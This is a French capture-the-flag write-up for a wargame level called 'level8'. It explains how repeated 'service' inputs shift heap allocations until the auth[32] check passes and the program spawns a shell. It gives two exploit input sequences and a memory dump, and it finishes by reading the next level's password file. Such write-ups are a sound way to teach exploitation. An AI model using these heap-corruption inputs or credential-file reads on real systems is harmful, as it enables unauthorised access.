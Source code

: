 # level8 - Heap Memory Manipulation

## Analyse du Programme

**Structure**
- Boucle principale avec `fgets(buf, 128, stdin)`
- Commandes disponibles: `auth`, `reset`, `service`, `login`
- Vérification critique: `auth[32] != 0` pour `login`

**Comportement Mémoire**
- `auth`: alloue 4 bytes à `0x804a008`
- `service`: utilise `strdup` sur `buf+7`
- Chaque allocation décale de 16 bytes
- Headers malloc entre les blocs

## Exploitation

**Étapes**
1. `auth`: initialise le pointeur auth
2. Premier `serviceAAAA`: écrit à `0x804a018`
3. Second `serviceAAAA`: écrit à `0x804a028`
4. `login`: vérifie `auth` qui pointe maintenant vers nos "AAAA"

**Séquence d'Exploitation**
```bash
auth 
serviceAAAA
serviceAAAA
login
```

Cette exploitation fonctionne car:
- Le second bloc "AAAA" est placé à `auth + 32`
- La condition `auth != 0` devient vraie
- Le programme exécute `system("/bin/sh")`

**Solution supplementaire**
```
auth aaaa                   // Les 'a' sont presents a but illustratif
servicebbbbbbbbbbbbbbbb     // 16 * 'b'
login
```

Apercu de la memoire:
```
0x804a008:      0x61616161      0x0000000a      0x00000000      0x00000019
0x804a018:      0x62626262      0x62626262      0x62626262      0x62626262
0x804a028:      0x0000000a      0x00020fd9      0x00000000      0x00000000
0x804a038:      0x00000000      0x00000000      0x00000000      0x00000000
```

Sachant que `auth` fait un `malloc` de 4 qui sera aligne a 16 (1ere ligne) et que la prochaine allocation se fera a la suite (2eme ligne), nous en deduisons que 16 octets suffiront pour atteindre auth[32], ainsi, la condition `auth[32] != 0` sera vraie.

**Obtention du Flag**
```bash
cat /home/user/level9/.pass
```
